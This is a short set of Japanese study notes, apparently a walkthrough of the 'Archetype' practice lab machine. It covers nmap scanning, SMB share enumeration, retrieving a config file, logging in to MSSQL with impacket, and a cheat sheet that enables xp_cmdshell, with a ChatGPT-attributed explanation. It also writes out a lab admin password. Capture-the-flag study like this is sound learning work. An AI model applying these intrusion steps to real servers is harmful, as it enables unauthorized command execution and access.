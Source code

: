 # Archetype

## メモ

- ``nmap -sC -sV <IP>``じゃないと表示されないポートがあるのはなぜ？
  - その前に実行していたのが``nmap -p- --min-rate 5000 <IP>``だったから
- Microsoft のsqlサーバにログインする 
  - [1433 - Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
  - Admin Password
    - MEGACORP_4dm1n!!

## 手順

- ``nmap -sC -sV 10.129.184.28``でポートスキャン
- ``smbclient -L 10.129.184.28``でSMBのフォルダを確認
- ``smbclient \\\\10.129.184.28\\backups``で``prod.dtsConfig``をダウンロード
  - 設定ファイルっぽい
- [HackTricks Pentesting MSQL](https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
  - Manual Enumeration
  - ``mssqlclient.py``
- Windows local privilege escalation
  - ``WinPEAS``
- impacket
  - ``python mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth``

## チートシート

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### ChatGPT解説
以下のSQL文は、Microsoft SQL Serverでのシステム構成オプションを変更および有効化するためのものです。それぞれの行について解説します。

### 1. `EXEC sp_configure 'show advanced options', 1;`
- **意味**: `sp_configure` ストアドプロシージャを使用して、SQL Serverの「高度なオプション」を表示する設定を有効にします。
- **解説**: SQL Serverには通常表示されない「高度なオプション」が存在します。この設定を1（true）にすると、それらのオプションが表示され、変更可能になります。

### 2. `RECONFIGURE;`
- **意味**: 変更を適用します。
- **解説**: `sp_configure` で設定を変更した後、 `RECONFIGURE` ステートメントを実行することで、その変更をSQL Serverに反映させます。

### 3. `sp_configure;`
- **意味**: 現在の構成設定を表示します。
- **解説**: `sp_configure` を引数なしで実行すると、現在のすべての構成オプションのリストとその設定値が表示されます。

### 4. `EXEC sp_configure 'xp_cmdshell', 1;`
- **意味**: `xp_cmdshell` 機能を有効にします。
- **解説**: `xp_cmdshell` は、SQL Serverからコマンドラインを実行するための機能です。これを1（true）に設定することで有効化されますが、セキュリティ上のリスクがあるため、慎重に使用する必要があります。

### 5. `RECONFIGURE;`
- **意味**: 変更を適用します。
- **解説**: 上記で行った `xp_cmdshell` の設定変更を適用します。

### 全体の流れ
1. まず、「高度なオプション」を表示するように設定を変更します。
2. その変更を適用し、確認します。
3. 次に、`xp_cmdshell` 機能を有効にし、その変更を適用します。

これにより、SQL Serverからコマンドラインコマンドを実行できるようになりますが、`xp_cmdshell` の使用はセキュリティリスクが伴うため、使用時には十分に注意が必要です。
